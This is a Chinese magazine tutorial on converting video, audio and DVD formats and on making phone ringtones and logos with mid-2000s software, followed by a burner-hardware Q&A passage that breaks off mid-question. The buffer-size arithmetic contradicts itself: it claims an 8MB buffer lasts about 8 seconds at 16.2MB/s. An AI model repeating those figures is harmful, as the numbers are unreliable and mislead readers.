安装之后运行，我们就开始视频转换的操作了，首先用鼠标点击最左侧的 “转换” 按钮，进入 “添加一个转换任务” 对话框，在这里面我们点击右侧的打开文件图标，添加要转换的源文件，进入 “打开” 对话框。选择好了源文件之后，软件会对我们选中的视频文件进行快速检查，然后在对话框里面显示视频文件的视频信息，有视频文件大小、视频长度、帧速率、视频宽和高等等数据。在右边的预览窗口下面，我们可以点击播放按钮来预览这段视频文件。

| 序号 | 标题 |
|---|---|
| 1 | AVI |
| 2 | MPEG |
| 3 | VCD |
| 4 | SVCD |
| 5 | DVD |
| 6 | YMV |

接着点击 “前进” 按钮，在这里可以让我们选择把 MPEG 视频转换成为什么格式，一共有六种格式让我们选择，包括 AVI、MPEG、VCD、SVCD、DVD、YMV。每选中一种格式之后，我们都可以在 “输出设置” 框里面进行进一步设置。设置完成之后，我们可以点击 “取消” 按钮上方的 “浏览” 按钮，在里面选择输出转换后文件的路径和文件名。最后我们点击 “完成” 按钮，软件会返回到主界面，这时候我们可以看到刚才设置的任务已经在 “转换任务” 的列表里面了。只要我们选中这个任务，然后点击上方工具栏上的 “执行” 按钮，即可对视频开始进行转换了。

在进行视频转换之前，可能我们想要把一些不需要的部分去掉，留下精华的部分，此时我们可以使用 Ultra MPEG Converter 的视频文件分割功能。在软件主界面中点击 “分割” 按钮，我们首先选中需要进行分割的视频文件，然后可以看到这个视频文件的视频信息和参数，也同样可以在预览窗口里面预览该视频。接下来我们点击右下方的剪刀状图标，进入视频文件分割窗口。在这个窗口里面，上方是视频播放窗口，下方是视频播放进度条（以时间为单位），在下边是播放的各种控制按钮，右侧的3个按钮分别是标记起始点、标记结束点和清空标记。进入该窗口约3秒钟后会自动播放视频文件，我们可以先把视频停止，然后拖动滑动条进行查看，在我们要分割的起点处停下来，然后点击 “标记起始点” 按钮来确定待分割视频的起点，然后我们继续拖动滑动条到结束的地方停下来，点击 “标记结束点” 按钮确定终点。如果标记设置不准确，我们可以点击 “清空标记” 按钮清除标记点，然后重新进行标记。标记完成之后点击 “完成” 按钮回到上一层的窗口。接下来点击 “前进” 按钮，开始选择分割出来的视频以什么样的格式存在，同样有六种视频格式。此外我们还要设置好转换之后的视频文件存放路径以及文件名。最后点击 “完成” 回到软件主界面，我们采取和视频文件转换一样的操作，启动这个分割/转换任务即可。

正所谓 “有分必有合”，我们既然可以分割一个视频文件，自然也可以把两个或者以上的视频文件合并到一起。首先点击 “合并” 按钮，然后点击 “添加” 按钮来添加要进行合并的源文件，系统会快速检查添加进来的文件格式，显示出一个进度条，之后显示视频文件的存放的路径、文件名、大小等视频信息，这里我们可以先选定一个文件，然后点击 “播放” 按钮进行预览。同时我们也可以选定一个文件之后，然后通过点击 “上移” 和 “下移” 按钮来调整视频文件的顺序。接下来点击 “前进” 按钮，又到了我们所熟悉的选择视频文件格式，以及设定输出文件的文件名和路径的窗口了，设置好了之后点击 “完成” 返回软件主界面，紧接着开始执行任务即可。

### 2. 主流视频转换 RealVideo

RealVideo 可以说是目前网上最流行的流媒体视频格式，它的文件扩展名包括了 RM 和 RMVB 等，一直以来它们都以压缩率高、电影播放清晰流畅、文件体积小的特点深受广大网友的欢迎。目前所流行的把各种视频文件转换成 RM/RMVB 的软件有很多，但是这些软件都并不是太专业，其实要想转换、制作高清晰的专业 RealMedia 视频，非用 RealProducer Plus 10 不可。这个软件大家可以在 http://www.crsky.com/soft/3105.html 下载。RealProducer Plus 的特点就是专业，它能够把所有主流的视频文件格式转换成为任意码率的 RM 或者 RMVB 文件，也就是我们可以自由定义视频文件的大小，它更加可以进行实时录制，能够用你的摄像头，把你的活动直接拍摄成为 RM 视频，让你发给你的朋友，甚至是可以做成一个视频直播的网站。当然，这里我们只是介绍如何通过 RealProducer Plus 10 来进行 RMVB 的文件转换。

我们安装好 RealProducer 之后启动，就会看到如图4的主界面，RealProducer 的界面非常有意思，我们可以看到两个视频播放的窗口，一个是 Input (输入)，一个是 Output (输出)。当你进行视频转换的时候，你就会看到两个视频播放窗口同时在播放视频，只是左边播放的是原本的视频，而右边播放的是经过了压缩之后的视频，这样我们就可以很方便地对视频转换的前后效果进行对比。接下来我们点击左边播放窗口下面的 Browse 按钮，在弹出的对话框里面选择准备转换的文件。选择好文件之后，我们就会在左边的播放框里面看到这段视频的图像。接着我们点击右边的 output 视频播放窗口下面的 Audiences 按钮，这里是让我们选择视频压缩的编码，可以看到右下方的窗口里面已经选中了好几种视频编码，事实上我们只需要一种就足够了，我们可以先选中不要的编码，然后点击垃圾桶图标把它们删除掉。然后在左边的窗口里面选择正确的编码，再点击中间的向右的箭头把这个编码添加进来。一般来说如果你想转换之后的视频效果好，选择 450K RMVB 就可以了。选择好编码之后，直接把这个窗口关闭即可。回到程序主界面，这时候我们会发现主界面右下方红色的 Encode 按钮已经被激活了，只要点击一下即可开始视频文件的转换。


如果我们有多个文件需要进行转换，可以点击软件主界面左下方的 New Job 按钮，接着你又可以选择一个新的文件，选择编码等等重复操作，添加好任务之后，你就会发现有一个新的任务已经添加到任务队列里面，当然你也需要点击一下 Encode 按钮，这样在上一个任务结束了之后，这个任务会被立刻激活来运行。

### 3. 主流视频转换 DivX

RM 视频虽然在网上广为传播，但是对于很多追求完美的人来说，它们的画质还是太差了，而现在最受欢迎的视频格式莫过于 DivX 格式了。这种格式的视频文件虽然扩展名依旧是 AVI，但是采用了 DivX 编码技术，让其在一个和 VCD 差不多大的视频文件上实现接近 DVD 播放效果的画质，比起 VCD 来说更加是好了不知道多少倍，于是很多人都喜欢把各种视频文件转换成为 DivX 格式文件来保存，可以同时做到体积小和画质高。在这里我们推荐大家使用的是 AVI to DivX，这款软件使用界面简单，操作起来非常方便，可以把 AVI/MPEG/MPG/MOV/QuickTime，甚至是可以把 DV 摄像机拍摄的视频直接转换成 DivX 文件，可以说是非常的实用。至是 DVD 格式的文件转换成为 DivX 文件哦。

首先我们在 http://download.yesky.com/soft/108/108828.html 把 AVI to DivX 下载回来并且安装好，AVI to DivX 的界面非常简单，所有操作都在当前界面即可完成。我们可以很清晰地看到上方的 Input Files (输入文件列表) 以及下方的 OutPut Files (输出文件列表)。我们可以点击右上方的 Select Input Files 按钮，在弹出的对话框里面选择我们准备转换成 DivX 的文件。如果你什么设置都采用默认的话，现在只要点击一下 Covert NOW 即可进行视频转换了。当然 AVI to DivX 的功能没有这么简单，因为有时候我们需要对输出的视频进行设置。首先是在主界面上的普通设置，Need to OutPut Audio 是指“需要输出音频”，这个选项是默认选上的，如果没有选上，那么你的 DivX 视频将是无声电影了。如果你进行了高级输出设置 Advanced OutPut Setting 的话，那么需要把 Use Advanced OutPut Setting 前面的方框选上，你所做的设置才会起作用。Ignore Error MessageBox 是指忽略错误提示，而 Shut Down PC after all done 是指所有转换任务完成之后关闭你的电脑。这些选项的右边我们可以看到一个 Output AVI Codec 的下拉菜单，里面有很多视频编码供我们选择，一般来说选用缺省的 Full UnCompressed (全部不压缩)，这样画质会保持很高。如果你选择的编码器有特别选项，还可以点击下来的 A V I Codec Setting 按钮来进行设置。

如果你是一个高级用户，那么你就要点击 Advanced OutPut Setting，在窗口里面进行一下高级设置了。这里主要有视频输出的高度和宽度设置 (OutPut Video Width x Height)，关系到视频是否流畅的视频输出的帧数 (OutPut Video FrameRate)，还有就是音频输出的格式 (OutPut Audio Format)。设置好了之后大家可不要忘记把外面的 Use Advanced OutPut Setting 选择上。一切都设置好了之后，点击 Covert Now 即可开始文件转换了。

### 4. 转换 DVD 影碟

现在我们大多数人手上都会有不少 DVD 影碟，如何保存这些影碟成了许多人心目中的烦恼事，其实我们只要一个软件，即可把 DVD 影碟转换成为各种主流格式，包括高质量高清晰的 DivX，或者是方便保存的小体积的 RM 等等，这个软件就是国产软件精品豪杰视频通了。我们可以到 http://www.mydown.com/soft/83/83837.html 下载这个软件。

运行豪杰视频通之后，要把 DVD 转换成什么文件点击相关的按钮就可以了。而第一个按钮“DVD 转化成为 VCD”比较特殊，它要求你的光驱里面必须有一张 DVD 光盘。而另外的几个转换选项，只要你点击相关的按钮，立刻就会弹出一个对话框来，让你选择要进行转换的文件。除了 DVD 之外，我们还可以打开各种主流视频文件进行转换，在选择了文件之后都会显示在中间的文件列表框里面，此时我们可以在右边进行一些设置，譬如点击“输出路径”后面的按钮选择一个新的路径，因为默认的路径是在豪杰软件的安装目录里面。另外还可以根据你准备转换的视频格式来设置视频的清晰度以及对 DVD 的字幕进行转换合并等等。设置完成之后，我们只要点击文件列表框下面的“转换”即可开始转换视频文件了。

值得一提的是，豪杰视频通针对当前的 P4 处理器以及具有超线程能力的处理器进行了优化，我们只要把右上角的标签切换到“通用”状态，即可进行相应的设置。除了可以选择“奔4优化”之外，还可以选择“HT优化”(超线程优化)，在右下角的下拉菜单中还可以手动设置线程数，如果你的 CPU 性能强劲，不妨设置到最高的 5 线程。

### 四、音频文件转换

不少喜欢在电脑或者随身听上面听音乐的朋友可能会问，为什么电脑里面的音乐会有那么多的格式呢？难道没有一种格式可以十全十美的吗？确实，目前众多的音频格式没有一个是万能和通用的，抛开不同的外部设备 (譬如 MP3 播放器) 支持不同的音乐格式不说，就算是存放在电脑上面的音乐，有的人喜欢高品质的，有些人喜欢文件体积小的，因此出现那么多的音频文件格式也就不足为奇了，为了能够让我们可以在这众多的音乐格式之中“来去自如”，有必要掌握一些音频转换软件的基本用法哦！

### 1. CD 转换 MP3

最常见的音频转换，莫过于把自己的 CD 音乐转换成为可以存放在电脑上面的音乐文件了，而总得来说，我们对 CD 音频转换有两种选择，对于追求高保真的朋友，可以把 CD 转换成为没有压缩过的 WAV 音频，不过相信更多的人愿意把 CD 转换成为 MP3，毕竟大多数人都不是音响发烧友，而且对于流行曲等歌曲而言并不需要高保真。

如果我们要把 CD 转换成为 MP3，最简单、直接的方法莫过于用 Windows XP 自带的 Windows Mediaplayer 10 了，在以前的版本里面，Mediaplayer 只能转换 CD 为 WMA，但是从 10 开始我们就多了一个选择，那就是 MP3 了，有了这个功能之后，我们把 CD 转换成为 MP3 再也不需要其他的软件了。首先，我们把 CD 光盘放到光驱之中，很快就会弹出自动运行的窗口来，此时我们如果直接选择“从 CD 翻录音乐”，Mediaplyer 就会自动开始进行转换了，这样未免太快了，我们可以首先播放 CD ，或者自己打开 Mediaplayer 之后点击主界面的“翻录”按钮。在缺省状态下，我们会发现所有歌曲都已经被选中，我们可以清除掉不需要翻录的歌曲前面的小钩，最后只要点击界面右上方的“翻录音乐”即可开始翻录工作。等到翻录完毕之后，我们就可以到指定的目录下面去寻找歌曲了，这个路径我们可以看 Mediaplayer 翻录界面下方的“已选中 xxx 个要翻录到 C:\xxxx 的曲目”这里看到。不过此时会有朋友发现，翻录到硬盘上面的只是 WMA，而不是 MP3 歌曲，而且音质也一般般，原因是我们需要在 Mediaplayer 第一次翻录歌曲之前进行设置。在 Mediaplayer 10 的工具栏上面点击鼠标右键，然后选择“工具→选项→翻录音乐”，大家可以看到这里就是设置翻录音乐的选项。首先我们自然要通过“格式”下拉菜单来选择我们需要转录的音乐格式，譬如“MP3”，然后下面有一个滑动条可以让我们调整 MP3 音乐文件翻录的质量，越往右边音乐的质量越高，但文件体积也会越大。另外“插入CD时进行翻录”的选项最好去掉，不然以后发现有 CD 在光驱里面，Mediaplayer 10 都会自动帮你翻录了。在这个窗口上方有一个“翻录音乐到此位置”的选项，点击“更改”按钮之后我们可以设置一个路径，以后翻录的音乐都会在这个目录下面再按照每个 CD 专辑建立不同的目录来存放。设置完毕之后点击“确定”回到翻录界面，现在只要你点击一下“翻录音乐”的按钮，很快你就能够听到动听的 MP3 音乐了。

#### 2. WMA、MP3、OGG、WAV互换

可能是音频文件比视频文件体积小，结构简单的缘故，大多数音频转换文件都能够应付两种以上的主流格式，譬如这个叫作 Advanced WMA Workshop 的软件，它就是一个非常出色的音频转换软件，可以在 WMA、MP3、OGG 及 WAV 四种文件格式之间进行转换，而且还能够批量进行转换，加上中文汉化的界面，相信大家一定会觉得很方便。

首先我们在 http://www.skycn.com/soft/5965.html 下载 Advanced WMA Workshop 的最新汉化版本（目前是 V2.1.3 Beta），安装过程这里不多说，启动软件之后，我们会发现它的界面有点像 Windows XP 的资源管理器。左边是树状目录窗口，点击之后可以打开 MP3 文件，而中间的主窗口则是显示当前目录里面的文件。首先我们确定要进行转换的音乐格式，譬如说你想把目录里面的 MP3 文件转换成为 WMA 文件，那么首先双击主窗口中的文件，它就会跑到下面的等待进行转换的列表里面去了，此时你可以多选几个文件。文件选择完毕之后，我们点击右上角的转换格式按钮，点击“转换为WMA”，然后点击工具栏下面的“转换”按钮，程序就会弹出转换设置窗口。设置非常简单，无非就是输入文件的路径，文件转换的比特率等等，比特率越高音质越高，当然所获得的文件体积也越大，一般来说不管是什么格式，128~256Kbps 是比较适合的码率，太高了我们分辨不出来，太低了音质也太差了。采样率一般采用缺省的 44100Hz 就可以了，这是标准的 CD 采样率，另外声道自然是立体声了，毕竟目前很少看到有多声道的音乐文件。另外小心“处理完成后删除源文件”这个选项，最好不要选择，等转换完成之后我们试听觉得满意了再去删除。至于右边的 ID3v2 标签是当前歌曲的一些版权信息，这些信息添不添无所谓，只是会在播放软件里面显示出来而已。或者干脆选择“从源文件载入”。设置完成之后点击“确定”歌曲便会开始转换。Advanced WMA Workshop 转换的速度非常快，相信你一定会喜欢上它的。

#### 3. 转换Real音频

除了 RM 和 RMVB 视频是为我们大家所知的之外，Real 系列还包括了 Real Audio 音频文件，它的扩展名一般是 RA，也有单纯的音频 RM。现在网上还是比较流行 Real 音频的，不少网站的在线播放都是支持直接这些格式，但是这些格式的文件在下载回来之后又无法直接在 MP3 随身听上面播放，因此我们需要用软件来进行转换，这个软件就是 A2SOFT Real Audio Converter。它可以在 http://www.mydown.com/soft/183/183610.html 下载到，而且界面简单，操作简便。

在安装完第一次运行软件的时候，会提示让你注册，就算不注册软件也是可以正常运行的，我们点击注册界面的 later 按钮即可直接跳到主界面。这个主界面非常简单，首先我们点击 Add files 按钮，然后在弹出的窗口里面选择需要转换的文件，包括了 RM、RA 和 RAM 格式的文件，我们可以一次添加多个文件，然后批量转换。如果我们导入了不相关的音频文件，可以先选择上，然后按 Delete 按钮把它从列表之中删除。导入完成之后，我们点击 Output folder，选择把转换之后的文件输出的路径，接着再确定输出的格式是 WAV 还是 MP3。如果是 WAV 文件，此时我们直接点击 Start 就可以开始转换了，如果是 MP3 格式的文件，那么我们还需要在右边的 Bitrate（比特率）下拉菜单里面选择 MP3 文件的编码率，一般是 128Kbps 即可，因为 Real Audio 本身的音质都不高。设置完成之后，我们点击 Start 按钮，即可快速将 Real 格式音频文件转换成 MP3 或 WAV 格式文件了。

#### 4. 转换APE文件

作为一种无损压缩的音频文件格式，APE 正受到越来越多的用户欢迎，现在网上很多 CD 音乐都是直接转换成为 APE 格式来传播的，但现在的 MP3 随身听都不支持 APE 格式，因此我们想要把 APE 转成 MP3 格式，或者说干脆把网上传播的 APE 重新刻录成为 CD，都需要软件来帮助我们。总的来说，我们应该分两步走，首先要把 APE 音乐还原成为无损压缩的 WAV 音频，然后可以随意把 WAV 转换成为 MP3 或者 WMA，拿去刻录 CD 也可以了。

目前从网上下载的 APE 音乐通常有四种情况：由一个很大的 CDImage.ape 和 CDImage.cue 文件组成；由若干个小的 *.ape 和一个 *.cue 文件组成；有若干个小的 *.ape 文件而没有 CUE 文件；由若干个小的 *.ape 和一个 *.fpl 文件组成。这里面的 ape 是压缩的音频文件，cue 是镜像信息文件（同时也是菜单文件），而 fpl 只是菜单文件。我们首先要做就是把 APE 转换成为 WAV。要把 APE 转换成为 WAV 有两种方法，分别是通过 Monkey's Audio 和 Foobar，这两种软件都是家喻户晓的，大家可以到各大软件下载站点找到。

这里首先介绍用 Monkey's Audio 转换，打开主界面之后，首先我们点击 Monkey's Audio 左边第一个图标旁的下拉菜单，把它的工作模式设置成为“解压缩”，然后点击“添加文件”或者是“添加文件夹”按钮把 APE 文件导入到准备转换的列表之中。然后回到主界面里面，点击“解压缩”按钮，系统就会开始运作，很快你的 APE 文件已经还原成为 WAV 文件，并且和源文件放在同一个目录下面。

另外如果你的音乐播放软件是 Foobar，也可以用它来将 APE 文件转换成为 WAV 文件。首先我们在 Foobar 上面打开准备要转换的 APE 文件，然后在文件上面点击鼠标右键，选择“转换→转换器设置”。在“输出格式”的下拉菜单里面，我们可以自由选择不同的文件格式，直接输出 MP3 的话会对音质有所影响，对刻录成 CD 十分不利，因此我们要选择 WAV 格式。这里有三种 WAV，分别是 8 位、16 位和 24 位的，位数越高音质越好。如果你不想刻录 CD 而只是想把 APE 转到 MP3 随身听上面去听的话，直接选择 MP3 就可以了。选择相应格式之后我们还可以拉动文件体积的滑动条，“最大”就代表体积最大的文件，而且音质也是最高的，反之就是体积小音质低了。设置完毕之后我们点击“关闭”回到主界面，重新在 APE 文件上面点击鼠标右键，这些我们在弹出菜单里面选择“转换”即可看到转换操作。如果你下载回来的 APE 文件是一个大体积文件，而且还附带了 CUE 文件的话，我们在导入文件的时候就不需要导入 APE 文件，只要选择 CUE 文件，Foobar 自动就会从 APE 文件里面把每首歌曲分离开来，这样我们可以单独转换其中的几首歌曲为 WAV 文件了。

获得 WAV 文件之后，我们就可以利用 NERO 等软件来刻录 CD 光盘了。如果你有多个 WAV 歌曲文件的话，可以点击“文件→新建→音乐 CD”，然后把硬盘上面的 WAV 文件拖动到左边的带转换的音乐栏里面。排列好顺序之后，点击“刻录”按钮即可，NERO 会自动帮你进行音频转换。但是问题也来了，如果你是一个大的 APE 文件转换而成的一个 WAV 文件，那么刻录成 CD 之后你会发现 CD 上面只有一首歌曲，歌曲的时间就是那整张 CD 的时间，中途也无法切换歌曲了。如果你想把一个大的 WAV 文件刻录成为有多首歌曲的 CD 光盘的话，就需要在 NERO 的主界面上点击“文件→打开”，然后打开你的 CUE 文件。在打开 CUE 文件之前，首先我们要用记事本来打开这个文件，把 CUE 文件里面关于 APE 文件的信息改成“WAV”。用 NERO 打开 CUE 文件之后就会弹出“刻录编译”的窗口来，建议大家把“刻录速度”选择到最低，这样能够保证刻录的质量，音质也有保证，最后点击“刻录”，很快就会得到我们的音乐光盘了。

### 五、把多媒体转换到手机/PDA里

现在的智能手机或者 PDA 都整合了强大的多媒体功能，我们通过手机来听音乐、看图片、甚至看电影早已经不是什么新鲜事了，但大多数人还是停留在直接把网上下载的资源复制到手机/PDA 上面的境界，而对于一些个性化的内容，譬如你的大头像、你的个人录音、甚至是个人视频等等，要放到手机上面恐怕就有点难度了。其实现在已经有很多软件能够帮助我们实现手机/PDA 多媒体的个性化了。不信？下面我们就一个一个去尝试吧。

#### 1. 手机铃声的转换

要把自己喜欢的音乐设置成为手机铃声一直是大部分人的梦想，但网上的手机铃声都是别人做好的，就算碰巧有你喜欢的歌，也未必就有你最喜欢听的那一段，因此我们最好能够自己把平时听的电脑音乐转换成为手机铃声。现在有些手机已经能够直接支持 MP3 铃声，这个当然就简单了，不过大部分的手机还停留在 MIDI 铃声或者是 MMF 铃声的阶段，因此我们要学会如何转换这两种格式的音乐。无论是 MIDI 还是 MMF，在把音乐文件转换成它们之前，最后都首先转换成为 WAV 文件，这样转换起来就比较好处理了。

##### (1) WAV-MIDI

WAV 转换成 MIDI 的工具里面，推荐大家使用 AmazingMIDI，可以说它是网上公认的效果最好的工具。首先我们下载并且安装好 AmazingMIDI，然后启动它。我们要做的就是在 input file 中添入要转换的 WAVE 文件，在 OutPut file 中添入目标 MIDI 文件存放的地址。至于上面的一行 Tone File 是背景声音的部分，也就是乐器演奏时所发出来的声音，这一部分 AmazingMIDI 能够自动将它们分析出来，我们也可以利用它来做成手机铃声。设置好了之后点击工具栏左方的第一个绿色图标，这里的选项我们都不需要动，直接点击 Start 即可看到转换过程，我们可以在状态栏中观察到整个过程的进展情况哦。MIDI 文件转换完毕之后，直接把它们同步到手机/PDA 上面就可以了。

##### (2) WAV-MMF

MMF 是目前最主流的手机铃声格式，而制作 MMF 的工具自然非 PsmPlayer 莫属了，它是目前最好的和弦铃声转换工具，能够支持 MID、RMI、KAR、DXM、ALS、DAT、CMD、MEL、SML、MLD、PMD、MMF、SMD、SMZ、WAV、MML、M3U 等格式，并能将上述文件格式转换为可下载到手机的 MMF 格式。首先我们去 http://www.skycn.com/soft/11306.html 下载一个最新版本的 PsmPlayer 回来，PsmPlayer 的界面非常简单，打开主界面之后，我们首先选择“文件→打开文件”，然后选择准备制作成为手机铃声的 WAV 文件。在转换之前要提醒大家，最好要对 WAV 进行剪辑，不然 MMF 的体积太大会影响你的手机的正常工作。接着我们来看看如图5的主界面，首先看看工具栏，前4个按钮


不用解释。b 和 # 按钮是用来升降调的，就是如果你嫌声音有点刺耳的话就按 b，嫌低沉的话按 #，可多次升降调。- 和 + 按扭是用来加大减小声音的，后边两个是加速减速按钮，可以调整铃声的播放速度。带一个红圆圈的是转换按钮，建议不用，因为容易出错。编辑好了之后，点击“文件→转换 SMAF（即 MMF）”，然后选择你的手机适合的 MMF 铃声。之后要限制 MMF 文件的大小，方法就是在“选择文件大小上限”里面设置一个数值，具体数值略小于你的手机支持的铃声大小，值得注意的是，这里的单位是 Byte，也就是说如果是 30000 的话就是 30KB 大小，大家可以换算一下。在“SMAF 文件设置”选项里，我们还可以做很多设置，譬如填上版权、防拷等。最后回到主界面，点击“转换”按钮即可开始转换了。

#### 2. 制作个性化手机LOGO

很多手机里面都支持来电显示大头贴，我们可以把相应的联系人设置上个性化的图片，这样在别人来电的时候就会显示出来，非常有意思。现在有部分手机已经能够支持JPG格式的来电显示LOGO，但是大多数的手机还是不支持的，对于我们这些图像处理的门外汉来说，最好的方法就是利用“手机精灵”来将我们的JPG照片（譬如人像）转换成为手机支持的LOGO格式。

首先我们到 http://nj.onlinedown.net/soft/8547.htm 去下载一个手机精灵回来。安装完之后启动软件，看到那两排的图标是不是觉得头疼呢？下面就每一个图标都解释一下。

##### （1）第一排

- a. 新建: 建立一个新LOGO。
- b. 打开: 打开一个本地的双色BMP文件。
- c. 保存: 把做好的LOGO保存在本地，形成双色BMP文件。
- d. 减切: 功能与Windows里的一样，不过在LogoGenius里这个还能做删除使用。
- e. 复制: 功能与Windows里的一样。
- f. 粘贴: 把复制好的东西贴在当前文件中。
- g. 撤销: 撤销上一步的操作。
- h. 重做: 重做上一步的操作。
- i. 文字: 在当前文件中输入文字，可以设置字体、大小等参数。
- j. 笔触: 可以将LogoGenius里设置好的一些小图案在当前文件里贴出来。
- k. 导入: 将本地的JPG或GIF文件导入进来做成LOGO，比如你的照片。
- l. 发送: LOGO做好之后就通过这个功能发送到你的手机上。

##### （2）第二排

- a. 铅笔: 可以在当前文件中画画。
- b. 选取: 用它选择特定的区域。
- c. 填充: 在填充大面积区域时会消耗较多系统资源，没必要还是别用吧。
- d. 直线: 画直线的工具。
- e. 方框: 画方框的工具。
- f. 方块: 实心的方框。
- g. 椭圆框: 画圆的工具。
- h. 椭圆块: 画实心椭圆。
- i. 左右翻转: 左右位置互换。
- j. 上下翻转: 上下位置互换。
- k. 黑白取反: 黑变白，白变黑，能得到很多特殊的效果。
- l. 设置: 设置你要做的LOGO类型和对应的手机，目前能支持市面上流行各大品牌手机，如诺基亚的待机、分组、大图、屏保；三星的大图；西门子的待机、屏保；阿尔卡特的待机、大待机、开关机；爱立信的EMS大图等。我们在进行图片转换之前，应该点击这个按钮，然后选择好和我们的手机对应的品牌和型号。

接下来我们点击“导入”按钮来导入准备做成手机LOGO的图片，由于手机精灵只支持BMP图片，因此我们还需要把JPG文件转换成为BMP图片。图片导入之后并不代表就等于已经变成LOGO了，我们要在图片上设置转换成LOGO的区域，只要用鼠标在图片上面点击左键，然后拖动，就会看到一个绿色的框，框选好具体的位置之后再点击一下左键，所选定的区域就会变成相应的手机LOGO了。当然我们可以通过调节对比度、铅笔工具去除图片斑点等操作来达到最好的效果。做好了之后，我们点击“发送”按钮，然后注册一个免费会员，输入你的手机号码就OK了，个性化LOGO很快被发送到手机上面！

#### 3. 转换手机/PDA视频

现在很多手机和PDA都支持MP4格式的视频，但是随着MP4的普及，它在使用上不简便的一面也无形地暴露了出来，那就是无法适应目前网上众多的诸如RM、AVI等格式的视频文件，而且分辨率偏低也让手机/PDA无法直接播放这些主流的视频格式，因此如果想通过手机/PDA看电影的话，我们还需要把RM、AVI等视频文件的分辨率降低，然后再转换成为MP4才可以。要进行这种转换，我们必须配备两个软件，一个是解码编码器，另一个则是格式转换软件SunPlus PMP Transcoding。为什么需要解码编码器呢？因为当一个媒体播放器需要播放某种视频或音频文件的时候需要通过解码器进行编码转换才能播放出来。不过如果我们的机器里面有暴风影音，由于它的解码器已经相当齐全，我们也就不需要去安装专门的MP4的解码器了。至于另外一个软件SunPlus PMP Transcoding是转换软件，因为目前大多数手机、PDA的MP4视频都是使用一种叫作“凌阳方案”的标准，因此我们转换的时候务必要按照这个标准，否则有可能无法正常播放。我们可以在 http://www.itime.cn/Soft/ShowSoftDown.asp?UrlID=1&SoftID=2296 下载这个软件。

在转换之前，首先确定我们已经拥有了解码器，或者干脆安装暴风影音。用SunPlus PMP Transcoding来进行MP4转换，主要有几个步骤。

##### 步骤一：

选择Media Mode（视频转换模式），然后选择音频采样率，8Kbps感觉音质太差了，48Kbps的话MP4处理不过来可能会杂音得厉害，所以一般选择16Kbps可以达到最佳效果。至于视频的质量则视你的MP4的容量决定，Best画质是最好的，但是容量会偏大，你的手机内存如果不大最好不要选择这个，一般情况下Normal就可以满足需要了，至于Bad不建议选择，实在是太差了。

##### 步骤二：

设置好这些之后我们就要点Input Files后面的Browse，选择准备要进行转换的文件。另外在Output Files这里选择好输出文件的路径。

##### 步骤三：

点击Convert，很快你的视频就会转换好了。

SunPlus PMP Transcoding不但支持市面上几乎所有格式的视频文件，而且还能够自动把视频的分辨率降低到主流的分辨率，譬如320×240像素，非常适合用手机/PDA来观看。

文 / 方成亮

### 一、刻录机硬件基础知识

#### 1. 刻录机的接口形式

问：刻录机有哪几种接口形式，分别有什么优势和不足之处？

答：刻录机与计算机的接口主要有：IDE、SCSI、SATA和USB等等，这和硬盘与主机相连接的方式是一样的。一般来说，SCSI接口机型刻出的盘片质量最好，这是由于SCSI接口的设备占用CPU资源远远低于IDE和USB接口方式，此时CPU可以更有效地处理数据。但是SCSI接口的刻录机价格较高，大部分主板又没有提供SCSI接口，用户还需要额外购买SCSI卡，因此普及度比较低。刻录机还有内置式和外置式两种类型。内置的刻录机包括IDE接口、SATA接口和SCSI接口三种，比外置式便宜，且节省空间。不过，外置式刻录机插装方便，适宜共享使用。外置式刻录机密封性和散热性较好，有eSATA以及USB接口，极少数产品采用IEEE1394接口。在低速DVD刻录时代，我们总是强调ATA33接口就已经足够，但是对于16X高速刻录机而言，由于峰值传输率比较高，因此建议购买ATA66/100接口或是SATA接口的产品。至于外置刻录机的接口选择，一般USB 2.0的通用性是最好的，很适合普通用户。

#### 2. 缓存对于刻录机的作用

问：现在刻录机的缓存到底还有没有作用？是不是有了保护技术之后，大缓存已经没有必要了？

答：为保证刻录质量，高速刻录除了要求优质盘片外，刻录缓存也十分重要。刻录时数据要先写入缓冲区再去烧录，如果缓冲区中的数据用完了，后面的数据又没有及时补充上来，就会导致“缓存欠载（BUFFER UNDERRUN）”而刻录失败，盘片也会报废。从理论上说，缓存容量越大越快，烧录的失败率就越小。在刻录过程中，包括激光刻录头在内的刻录系统是连续工作的，因此数据供给也必须是连续的，否则一旦发生数据断流，就会产生光盘数据间断，而激光刻录头仍在继续烧刻，使光盘报废，甚至激光头受到损伤。不过，上游数据断流即使在正常工作中也经常发生。比如打开一个新程序，硬盘和CPU等资源就会暂停对刻录系统的供给，要等到该程序启动完成后再重新顾及刻录系统。现在，所有的刻录机中都安置了缓存。缓存就像一个水库，将上游即数据源送来的数据暂时囤积起来，之后以一定的速度供给刻录系统，并在上游暂时断流时将囤积的数据持续输送到刻录系统。通过刻录保护技术可以降低对缓存容量的依赖，目前DVD刻录机所采用的保护技术主要有三洋的BURN-Proof技术、理光的JustLink刻录技术、飞利浦的Seamless Link技术、SONY的Power-Burn技术、OAK的Exact-Link技术、YAMAHA的SafeBurn技术等等。虽说在刻录保护技术的帮助下，2MB缓存也足够使用，但在进行CD或是DVD-Audio等音轨刻录时，大缓存有利于保证音轨连续性，不容易出现爆音现象。当然，对于普通用户而言，2MB缓存已基本够用。

#### 3. 2MB缓存会不会影响刻录质量

目前有些16X刻录机的刻录缓存分为2MB/8MB版本，那么购买2MB缓存版本会不会降低刻录质量？

答：其实，8MB缓存真正的好处只有一条，那就是可以略微降低一下刻录时的CPU占用率。对于普遍应用刻录保护技术的DVD刻录机来说，缓存容量相对于刻写速度来说无疑是“杯水车薪”。我们可以计算一下，以16X机器平均12X写入速度计算，那么它每秒写入速度为12×1.35MB = 16.2MB（注：DVD刻录机的刻入刻录速度1X是1380KB/s，相当于1.35MB/s），因此2MB缓存机种平均持续刻录数据的时间大约是2MB/16.2MB≈0.12秒（原文为30MB/16.2MB=1.85秒，有误，已根据上下文修正），已经可以满足短时间刻录的需要。8MB机种平均持续刻录数据的时间大约可以达到8秒钟左右，比较适合需要高可靠性的办公备份和专业玩家，普通用户采用2MB缓存的刻录机就足够了。

#### 4. 刻录机需要升级固件吗？

问：我看到很多刻录机都宣称可以升级固件。那么，这种技术到底有什么用呢？

